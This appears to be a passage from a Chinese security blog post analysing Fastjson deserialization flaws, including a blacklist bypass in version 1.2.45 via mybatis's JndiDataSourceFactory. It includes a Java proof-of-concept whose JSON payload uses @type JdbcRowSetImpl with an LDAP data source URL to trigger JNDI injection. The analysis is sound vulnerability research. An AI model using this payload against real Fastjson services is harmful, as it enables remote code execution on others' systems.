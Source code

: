 ```java
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonstr = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"ldap://localhost:1389/ExecTest\"," + " \"autoCommit\":true}";
        Object obj = JSON.parseObject(jsonstr);
        System.out.println(obj);
```

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/d1f0ba0089fc7f64635cbd52afe5350c.png)

Fastjson 1.2.45版本漏洞
-----------------------

在Fastjson 1.2.45版本中，checkAutotype安全机制又被发现了一种绕过方式。之前的几次绕过都是针对checkAutoType的绕过，而这次则是利用了一条黑名单中不包含的元素，从而绕过了黑名单限制。

本次绕过利用到的是mybatis库。如果想测试成功，需要额外安装mybatis库。下文测试用例中安装的版本是3.5.5。

首先简单介绍下mybatis，maven上的简介如下：

> “MyBatis SQL映射器框架使将关系数据库与面向对象的应用程序结合使用变得更加容易。MyBatis使用XML描述符或注释将对象与存储过程或SQL语句耦合。相对于对象关系映射工具，简单性是MyBatis数据映射器的最大优势。”

### 漏洞利用

本次利用poc如下图

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/23689542db1576061ec011f3d10ca794.png)

从poc中不难发现，@type指定了JndiDataSourceFactory类，而在properties属性中的data_source变量中指定恶意数据源。由于JndiDataSourceFactory并不在黑名单上，因此可以顺利通过黑名单校验，在接下来的反序列化过程中，在为Properties变量赋值时调用其setter方法，可见下图动态调试结果

![](https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/8bf6a23d27b5eca427263eee78bb4b71.png)

在上图setProperties方法中，程序将取出poc中构造的DATA_SOURCE值并触发漏洞

写在最后
--------

除了上文分析的漏洞之外，FastJson还有几个很精彩的漏洞，例如Fastjson 1.2.47版本和1.2.68版本的漏洞。因为篇幅有限，要写的实在太多了，因此我把它们抽出来放在后续文章中介绍。